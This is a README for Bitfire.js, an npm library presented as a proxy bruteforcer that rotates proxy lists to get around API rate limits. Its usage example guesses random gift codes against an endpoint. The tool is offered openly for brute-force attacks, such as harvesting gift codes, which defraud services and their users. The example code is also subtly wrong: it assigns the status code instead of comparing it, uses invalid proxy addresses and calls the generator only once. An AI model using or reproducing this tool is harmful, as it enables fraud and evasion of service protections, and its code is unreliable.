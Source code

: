 # Bitfire.js
Simple Proxy Bruteforcer for Node.js allowing you to perform any api attack (by specifying a function) using proxy lists to bypass any ratelimits using the requests module.

It is my first library, so I don't recommend actually using this in production.

Currently only GET requests can be bruteforced but this can be changed by modifying a line of code.

![alt text](https://i.imgur.com/5orefhi.png "yes")

*Bit.ly Bruteforcer Example*

# Installation (NPM, Without TypeScript support)
```
npm install bitfire
```
# Installation (NPM, With TypeScript support)
```
npm install domenicw1/bitfire
```

# Installation (Yarn, Without TypeScript support)
```
yarn add bitfire
```
# Installation (NPM, With TypeScript support)
```
yarn add domenicw1/bitfire
```

# Usage
```js
var bitfire = require("bitfire");
function generateCode(){
var nf = "http://example.org/api/giftcodes/check/" + bitfire.rndStr(bitfire.charsNum,6);
return nf;
}
var proxyArray = ["123.293.192:8000","942.323.234.122:8080"];
bitfire.proxyBrute(generateCode(),proxyArray,10,function(error,response,body,code){
if(response.statusCode = 200){
console.log("Found Giftcode: " + code);
process.exit(0);
}
})
```
Bruteforce API

**bitfire.proxyBrute(function to generate api url to check, array of proxys, interval between requests, callback)**


Generate Random String

**bitfire.rndStr(string with allowed characters, length)**

Included character sets for rndStr

```
bitfire.lowerCaseChars = "abcdefghijklmnopqrstuvwxyz"
bitfire.upperCaseChars = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
bitfire.mixedCaseChars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
bitfire.charsNum = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"
bitfire.lowCharsNum = "abcdefghijklmnopqrstuvwxyz1234567890"
bitfire.upCharsNum = "ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"
```
